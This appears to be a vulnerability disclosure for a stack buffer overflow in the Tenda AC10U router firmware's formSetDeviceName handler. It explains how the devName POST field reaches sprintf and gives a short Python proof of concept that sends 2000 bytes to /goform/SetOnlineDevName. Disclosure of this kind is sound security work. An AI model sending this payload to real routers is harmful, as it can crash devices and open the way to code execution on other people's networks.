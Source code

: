 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `dev_name` variable receives the `devName` parameter from a POST request and is passed to function `set_device_name`. In this function, `dev_name` is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `devName` can trigger this security vulnerability.

![image-20240313233244036](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233244036.png)

![image-20240313233530157](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233530157.png)

![image-20240313233346293](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233346293.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"mac": 1,"devName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313233758387](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233758387.png)